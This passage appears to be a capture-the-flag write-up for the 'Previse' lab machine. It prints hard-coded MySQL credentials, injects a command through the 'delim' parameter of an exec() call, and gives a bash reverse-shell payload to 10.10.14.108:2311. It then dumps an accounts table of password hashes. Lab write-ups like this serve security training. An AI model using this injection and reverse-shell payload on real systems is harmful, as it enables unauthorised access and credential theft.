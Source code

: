 From the sitebackup.zip we get all php files and from `config.php` we get this

```
<?php

function connectDB(){
	$host = 'localhost';
	$user = 'root';
	$passwd = 'mySQL_p@ssw0rd!:)';
	$db = 'previse';
	$mycon = new mysqli($host, $user, $passwd, $db);
	return $mycon;
}

?>
```

we get database credentials

In the code of `logs.php` the `exec()` function can give us code execution with `delim` parameter

Capture a log download request in burpsuite

To `delim=comma` we add our shell code wich give us  
`delim=comma&bash -c 'exec bash -i &>/dev/tcp/10.10.14.108/2311 <&1'`

we get a shell on netcat

inside as www-data our actions are limited...we can use credentials from config.php

`mysql --host=localhost --user=root --password=mySQL_p@ssw0rd\!:\) previse`

Added an escape `\` to password characters

```
mysql> show tables;
show tables;
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts |
| files |
+-------------------+
2 rows in set (0.00 sec)
```

```
mysql> select _ from accounts;
select _ from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password | created_at |
+----+----------+------------------------------------+---------------------+
| 1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | test123  | $1$🧂llol$sP8qi2I.K6urjPuzdGizl1 | 2021-10-31 20:21:38 |
|  3 | adminx   | $1$🧂llol$5tZsYwBL.ah/7MifOnD8y1 | 2021-10-31 20:45:45 |
|  4 | nairolf  | $1$🧂llol$dtYsbcUDR1v/zUTtHfZzD1 | 2021-10-31 21:05:14 |
+----+----------+------------------------------------+---------------------+
4 rows in set (0.00 sec)
```
